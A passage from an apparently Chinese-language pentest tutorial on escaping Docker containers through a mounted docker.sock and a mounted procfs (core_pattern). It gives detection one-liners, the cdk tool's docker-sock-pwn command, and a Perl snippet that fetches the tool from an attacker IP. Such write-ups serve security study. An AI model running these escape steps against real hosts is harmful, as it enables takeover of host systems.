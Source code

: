  ** **2、挂载 Docker Socket****  

Docker Socket 用来与守护进程通信即查询信息或者下发命令。docker
cli默认通过unix套接字与容器进行通信以及下发指令，当挂载了/var/run/docker.sock文件时，就可以对这个unix套接字文件下发docker指令，就像在node机器上操纵docker一样。
** **  
****

 ** **a.检测****  

执行以下命令，如果返回 Docker Socket is mounted. 说明当前挂载了 Docker Socket  

ls /var/run/ | grep -qi docker.sock && echo "Docker Socket is mounted." ||
echo "Docker Socket is not mounted."  

如果返回 Docker Socket is not mounted. 则说明没有挂载![]() ** **b.漏洞复现****  

不是很想复现这个洞，太套娃了，挂载了docker.sock后，docker里面再操作docker。  

启动环境(其中-v -v /var/run/docker.sock:/var/run/docker.sock就是挂载docker.sock)：

docker run -itd --name cent_with_docker_sock -v
/var/run/docker.sock:/var/run/docker.sock centos:7  

检测一下是否挂载：

![]()直接使用cdk的docker-sock模块进行利用：

./cdk_linux_amd64 run docker-sock-pwn /var/run/docker.sock "touch
/host/tmp/pwn-success"  

![]()

命令执行成功：

![]() ** **3、挂载** **procfs****  

漏洞原理：从 2.6.19 内核版本开始，Linux 支持在 /proc/sys/kernel/core_pattern
中使用新语法。这个文件是负责进程奔溃时内存数据转储的，如果该文件中的首个字符是管道符 |
，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。并且由于容器共享主机内核的原因，这个命令是以宿主机的权限运行的。 ** **  
****

 ** **a.检测****  

执行以下命令，如果返回 Procfs is mounted. 说明当前挂载了 procfs  

find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is
mounted." || echo "Procfs is not mounted."  

如果返回 Procfs is not mounted. 则说明没有挂载![]() ** **b.漏洞复现****  

实战中可以直接用cdk工具进行利用，方便省时。  

从容器中下载工具的话可以简单判断下当前环境支持的脚本类型，例如默认ubuntu支持perl:

use LWP::Simple;  
getstore("http://192.168.174.1:1234/cdk","cdk");  

当然一般我们都打进容器了，肯定得有个webshell啥的直接用这些工具上传也可以。
